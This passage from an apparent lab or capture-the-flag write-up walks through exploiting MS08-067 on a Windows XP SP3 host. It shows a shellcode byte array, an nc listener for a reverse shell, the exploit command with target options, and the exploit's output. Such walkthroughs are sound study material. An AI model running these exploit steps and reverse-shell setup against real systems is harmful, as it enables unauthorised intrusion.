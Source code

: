 ```
shellcode += "\x42\xbf\x15\xca\x75\x9c\x0e\xb4\x5d\xee\x61\x07"
shellcode += "\xff\x70\xf6\xf9\x2a\xc8\x4f\x3c\x7e\x98\x0e\xd1"
shellcode += "\xaa\xa3\x66\x07\xff\x98\x36\xa8\x7a\x88\x36\xb8"
shellcode += "\x7a\xa0\x8c\xf7\xf5\x28\x99\x2d\xbd\xa2\x63\x90"
shellcode += "\x20\xc2\x68\xda\x42\xca\x66\xf9\x91\x41\x80\x92"
shellcode += "\x3a\x9e\x31\x90\xb3\x6d\x12\x99\xd5\x1d\xe3\x38"
shellcode += "\x5e\xc4\x99\xb6\x22\xbd\x8a\x90\xda\x7d\xc4\xae"
shellcode += "\xd5\x1d\x0e\x9b\x47\xac\x66\x71\xc9\x9f\x31\xaf"
shellcode += "\x1b\x3e\x0c\xea\x73\x9e\x84\x05\x4c\x0f\x22\xdc"
shellcode += "\x16\xc9\x67\x75\x6e\xec\x76\x3e\x2a\x8c\x32\xa8"
shellcode += "\x7c\x9e\x30\xbe\x7c\x86\x30\xae\x79\x9e\x0e\x81"
shellcode += "\xe6\xf7\xe0\x07\xff\x41\x86\xb6\x7c\x8e\x99\xc8"
shellcode += "\x42\xc0\xe1\xe5\x4a\x37\xb3\x43\xca\xd5\x4c\xf2"
shellcode += "\x42\x6e\xf3\x45\xb7\x37\xb3\xc4\x2c\xb4\x6c\x78"
shellcode += "\xd1\x28\x13\xfd\x91\x8f\x75\x8a\x45\xa2\x66\xab"
shellcode += "\xd5\x1d"
```

After replacing the shellcode variable in the exploit with the one we generated, we can move onto the attack

## Delivery & Exploit

Set up a reverse shell with nc:

``` bash
nc -nvlp 443
```

In a seperate terminal window we can launch the exploit, but before we do we need to consider the runtime arguments. As per the example in line 208 the syntax is `<script> <target> <target os>` like so:

``` python
print 'Example: MS08_067.py 192.168.1.1 1 for Windows XP SP0/SP1 Universal\n'
```

Checking through the source code we see the numbers correspond to different OS versions which will select appropriate return addresses for our exploit to run.

Going back to our aggressive nmap scan we can determine the target OS is __Microsoft Windows XP SP3 (94%)__
 which is option 6 (line 149) offers the closest match to.

to run the exploit we use:

``` bash
python 40279.py $TARGET 6
````

this appears to run the exploit successfuly:

``` 
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

```
